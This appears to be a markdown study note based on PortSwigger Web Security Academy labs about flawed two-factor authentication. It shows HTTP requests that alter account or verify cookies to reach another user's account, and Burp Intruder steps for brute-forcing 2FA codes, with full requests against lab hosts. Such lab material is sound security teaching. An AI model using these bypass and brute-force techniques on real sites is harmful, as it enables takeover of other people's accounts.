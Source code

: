 # Flawed two-factor verification logic

After a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step.

***EX 1***:

the user logs in with their normal credentials in the first step as follows:

```pure
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```

They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:

```pure
HTTP/1.1 200 OK
Set-Cookie: account=carlos
GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```

When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:

```pure
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```

In this case, you could log in using their own credentials but then change the value of the account cookie to any arbitrary username when submitting the verification code.

```pure
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```

***EX 2***:

1. Log in to your own account.
   
       https://example.com/login

2. Your 2FA verification code will be sent to you by email.
   
       https://example.com/login2

3. Click the Email client button to access your emails.

4. Go to your account page and make a note of the URL.
   
       https://example.com/my-account?id=wiener

5. Log out of your account.

6. Log in using the victim's credentials.

7. When prompted for the verification code, manually change the URL to navigate to `/my-account?id=carlos`.

# Brute-forcing 2FA verification codes

As with passwords, websites need to take steps to prevent brute-forcing of the 2FA verification code.

This is especially important because the code is often a simple 4 or 6-digit number. Without adequate brute-force protection, cracking such a code is trivial. 

***EX***:

1. With Burp running, log in to your own account and investigate the 2FA verification process. Notice that in the `POST /login2` request, the `verify` parameter is used to determine which user's account is being accessed.

```bash
GET /login2 HTTP/2
Host: 0a720006042bd68e81b4704700120068.web-security-academy.net
Cookie: session=usAT6uLTaoSwiWxa4ykgAHDNR56oGzRR; verify=carlos
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a720006042bd68e81b4704700120068.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

2. Log out of your account. 

3. Send the `GET /login2` request in `step 1` to Burp Repeater. Change the value of the `verify` parameter to `carlos` and send the request. This ensures that a temporary 2FA code is generated for Carlos. 

4. Go to the login page and enter your username and password. Then, submit an invalid 2FA code. 

5. Send the `POST /login2` request to Burp Intruder. 

6. In Burp Intruder, set the `verify` parameter to `carlos` and add a payload position to the `mfa-code` parameter. Brute-force the verification code. 
   
   ```bash
   POST /login2 HTTP/2
   Host: 0a720006042bd68e81b4704700120068.web-security-academy.net
   Cookie: session=jnKfc72StiuCsxkFHqUG0ftfUbOuhP8Y; verify=carlos
   User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 13
   Origin: https://0a720006042bd68e81b4704700120068.web-security-academy.net
   Referer: https://0a720006042bd68e81b4704700120068.web-security-academy.net/login2
   Upgrade-Insecure-Requests: 1
   Sec-Fetch-Dest: document
   Sec-Fetch-Mode: navigate
   Sec-Fetch-Site: same-origin
   Sec-Fetch-User: ?1
   Te: trailers
   
   mfa-code=§0756§
   ```

7. Load the `302` response in the browser or length. 

# 2FA bypass using a brute-force attack

if you enter the wrong code twice, you will be logged out again. You need to use Burp's session handling features to log back in automatically before sending each request. 

[Lab: 2FA bypass using a brute-force attack | Web Security Academy](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack)
